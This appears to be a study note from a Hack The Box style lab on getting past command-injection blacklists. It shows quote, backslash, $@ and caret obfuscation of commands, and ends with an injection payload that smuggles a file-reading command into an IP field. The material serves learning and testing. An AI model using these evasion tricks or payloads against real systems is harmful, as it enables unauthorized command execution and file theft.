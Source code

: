 ```yaml
---
title: Bypass Blacklisted Commands
draft: false
tags:
---
```

Blacklisting commands work like below's code:

```php
$blacklist = ['whoami', 'cat', ...SNIP...];
foreach ($blacklist as $word) {
    if (strpos('$_POST['ip']', $word) !== false) {
        echo "Invalid input";
    }
}
```

We can utilize various obfuscation techniques that will execute our command without using the exact command word.

## Linux and Windows

One common way is to insert a certain character within our command that is usually ignored by command shells like Bash or PowerShell.

`'` and `"` are sometimes just ignored.

e.g

```shell-session
21y4d@htb[/htb]$ w'h'o'am'i

21y4d
```

> Number of quotes always has to be even.


## Linux Only

We can insert few other Linux-only characters in the middle of commands and the bash shell would ignore them and execute the command.

`\` and `$@` is often used for this purpose.

e.g

```bash
who$@ami
w\ho\am\i
```

## Windows Only

We can insert `^` character between command as such:

```cmd-session
C:\htb> who^ami

21y4d
```



To read a file I can use something like:

```
127.0.0.1%0a{ca't',${PATH:0:1}home${PATH:0:1}user1${PATH:0:1}flag.txt}
```